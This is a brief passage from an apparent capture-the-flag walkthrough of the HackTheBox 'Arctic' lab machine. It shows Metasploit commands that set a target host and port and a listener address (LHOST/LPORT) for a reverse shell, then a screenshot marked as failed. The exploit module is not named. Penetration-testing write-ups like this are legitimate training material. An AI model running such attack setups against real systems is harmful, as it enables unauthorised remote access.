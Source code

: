 we find that their are a bunch of exploit but what is most interesting is the one that can be done with `metasploit` 

# Exploitation


![](/Windows/Windows-Easy/Arctic/Screenshots/metasploit.png)

```sh
show option
set RHOSTS 10.10.10.11
set RPORT 8500
set LHOST 10.10.14.9
set LPORT 4444
```

![](/Windows/Windows-Easy/Arctic/Screenshots/failed.png)
